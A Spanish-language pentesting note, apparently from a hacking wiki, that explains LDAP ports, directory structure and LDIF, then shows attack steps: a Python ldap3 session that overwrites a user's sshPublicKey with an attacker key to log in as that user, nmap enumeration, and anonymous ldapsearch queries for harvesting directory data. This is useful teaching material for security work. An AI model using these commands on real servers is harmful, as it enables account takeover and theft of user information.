

# LDAP

## ¿Que es LDAP?

LDAP (Protocolo Ligero de Acceso a Directorios) es un protocolo que permite a organizaciones acceder a información a través de directorios, los cuales almacenan objetos, que pueden ser de diferentes tipos. Los puertos en los que este servicio se ejecuta son el:

<table data-full-width="true"><thead><tr><th>Puerto</th><th>Uso</th><th>Seguridad<select><option value="d0131e708301473eb26d70d2a5e8baaa" label="🔒 Seguro (Requiere SSL)" color="blue"></option><option value="c1a9bc7e078d4bf3bb5444358897774e" label="🔓 No Seguro" color="blue"></option></select></th><th data-type="checkbox">Requiere SSL</th></tr></thead><tbody><tr><td><strong>389</strong></td><td>Transferencia de datos (Los datos viajan en texto claro)</td><td><span data-option="c1a9bc7e078d4bf3bb5444358897774e">🔓 No Seguro</span></td><td>false</td></tr><tr><td><strong>636</strong></td><td>Transferencia de datos (Los datos viajan cifrados)</td><td><span data-option="d0131e708301473eb26d70d2a5e8baaa">🔒 Seguro (Requiere SSL)</span></td><td>true</td></tr><tr><td><strong>3268</strong> </td><td> Acceso al catálogo global (LDAPS)</td><td><span data-option="d0131e708301473eb26d70d2a5e8baaa">🔒 Seguro (Requiere SSL)</span></td><td>true</td></tr><tr><td><strong>3269</strong></td><td> Acceso al catálogo global (LDAPS)</td><td><span data-option="d0131e708301473eb26d70d2a5e8baaa">🔒 Seguro (Requiere SSL)</span></td><td>true</td></tr></tbody></table>

## Estructura

Los servidores LDAP están organizados en forma de árbol por distintas categorías:



* **dc** significa "componente de dominio". Un componente de dominio es una parte de un nombre de dominio, como "example" en "example.com".
* **ou** significa "unidad organizativa". Una unidad organizativa es un grupo de objetos en un directorio LDAP. Por ejemplo, una unidad organizativa podría ser "Departamento de Desarrollo" o "Departamento de Ventas".
* **cn** significa "nombre común". El nombre común es el nombre de un objeto en un directorio LDAP. Por ejemplo, el nombre común de un usuario podría ser "John Doe" o "Jane Doe".
* **st** significa "estado". El estado es el estado de un objeto en un directorio LDAP. Por ejemplo, el estado de un usuario podría ser "California" o "Texas".
* **uid** significa "identificador de usuario". El identificador de usuario es el nombre de usuario de un objeto en un directorio LDAP. Por ejemplo, el identificador de usuario de un usuario podría ser "johndoe" o "janedoe".

## Intercambio de datos LDAP

El LDIF es el (Formato de intercambio de datos LDAP) que define el contenido del directorio como un conjunto de registros. Ejemplo:

```sh
dn: dc=local
dc: local
objectClass: dcObject

dn: dc=moneycorp,dc=local
dc: moneycorp
objectClass: dcObject
objectClass: organization

dn ou=it,dc=moneycorp,dc=local
objectClass: organizationalUnit
ou: dev

dn: ou=marketing,dc=moneycorp,dc=local
objectClass: organizationalUnit
Ou: sales

dn: cn= ,ou= ,dc=moneycorp,dc=local
objectClass: personalData
cn:
sn:
gn:
uid:
ou:
mail: pepe@hacktricks.xyz
phone: 23627387495
```


Si puede modificar valores, podría realizar acciones realmente interesantes. Por ejemplo, imagine que **puede cambiar la información "sshPublicKey"** de su usuario o de cualquier usuario. Es muy probable que si este atributo existe, entonces **ssh esté leyendo las claves públicas desde LDAP**. Si puede modificar la clave pública de un usuario, **podrá iniciar sesión como ese usuario incluso si la autenticación de contraseña no está habilitada en ssh**.

```sh
>>> import ldap3
>>> server = ldap3.Server('x.x.x.x', port =636, use_ssl = True)
>>> connection = ldap3.Connection(server, 'uid=USER,ou=USERS,dc=DOMAIN,dc=DOMAIN', 'PASSWORD', auto_bind=True)
>>> connection.bind()
True
>>> connection.extend.standard.who_am_i()
u'dn:uid=USER,ou=USERS,dc=DOMAIN,dc=DOMAIN'
>>> connection.modify('uid=USER,ou=USERS,dc=DOMAINM=,dc=DOMAIN',{'sshPublicKey': [(ldap3.MODIFY_REPLACE, ['ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDHRMu2et/B5bUyHkSANn2um9/qtmgUTEYmV9cyK1buvrS+K2gEKiZF5pQGjXrT71aNi5VxQS7f+s3uCPzwUzlI2rJWFncueM1AJYaC00senG61PoOjpqlz/EUYUfj6EUVkkfGB3AUL8z9zd2Nnv1kKDBsVz91o/P2GQGaBX9PwlSTiR8OGLHkp2Gqq468QiYZ5txrHf/l356r3dy/oNgZs7OWMTx2Rr5ARoeW5fwgleGPy6CqDN8qxIWntqiL1Oo4ulbts8OxIU9cVsqDsJzPMVPlRgDQesnpdt4cErnZ+Ut5ArMjYXR2igRHLK7atZH/qE717oXoiII3UIvFln2Ivvd8BRCvgpo+98PwN8wwxqV7AWo0hrE6dqRI7NC4yYRMvf7H8MuZQD5yPh2cZIEwhpk7NaHW0YAmR/WpRl4LbT+o884MpvFxIdkN1y1z+35haavzF/TnQ5N898RcKwll7mrvkbnGrknn+IT/v3US19fPJWzl1/pTqmAnkPThJW/k= badguy@evil'])]})
```


## Enumeración

```sh
nmap -n -sV --script "ldap* and not brute" <IP>
```

## Acceso

De esta manera, con nmap podremos acceder al servidor LDAP con credenciales validas:

```sh
ldapsearch -H <host> -p <port> -D <username> -w <password>
```

## Acceso anónimo

Según [**este informe**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/), solo con acceder al servidor LDAP con un nombre de dominio arbitrario (como company.com), se pudo contactar el servicio LDAP y extraer información como usuario anónimo:

```sh
ldapsearch -H ldaps://company.com:636/ -x -s base -b '' "(objectClass=*)" "*" +
```

### Búsquedas Anónimas de LDAP

Una búsqueda anónima de LDAP es una búsqueda que se realiza en un servidor LDAP sin autenticar al usuario. Esto significa que el usuario no tiene que proporcionar un nombre de usuario o contraseña para realizar la búsqueda. Las búsquedas anónimas de LDAP pueden usarse para recopilar información confidencial del servidor LDAP, como nombres de usuario, contraseñas, direcciones de correo electrónico, etc

